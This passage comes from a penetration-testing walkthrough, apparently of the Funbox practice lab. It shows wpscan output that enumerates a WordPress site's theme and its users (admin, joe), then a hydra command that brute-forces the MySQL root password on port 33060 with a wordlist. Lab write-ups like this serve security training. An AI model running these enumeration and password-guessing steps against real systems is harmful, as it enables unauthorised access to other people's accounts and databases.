 ````bash
 | Location: http://funbox.fritz.box/wp-content/themes/twentyseventeen/
 | Last Updated: 2020-12-09T00:00:00.000Z
 | Readme: http://funbox.fritz.box/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.5
 | Style URL: http://funbox.fritz.box/wp-content/themes/twentyseventeen/style.css?ver=20190507
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://funbox.fritz.box/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <===============================================================================> (22 / 22) 100.00% Time: 00:00:00

[i] No Config Backups Found.
````

Find username :
````bash
wpscan --url http://funbox.fritz.box -e u
[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://funbox.fritz.box/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] joe
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
````

---

#### 2.3.2 Port 33060 :
Run :
````bash
hydra -l root -s 33060 -P /usr/share/wordlists/fasttrack.txt 192.168.2.66 mysql -Vv
````

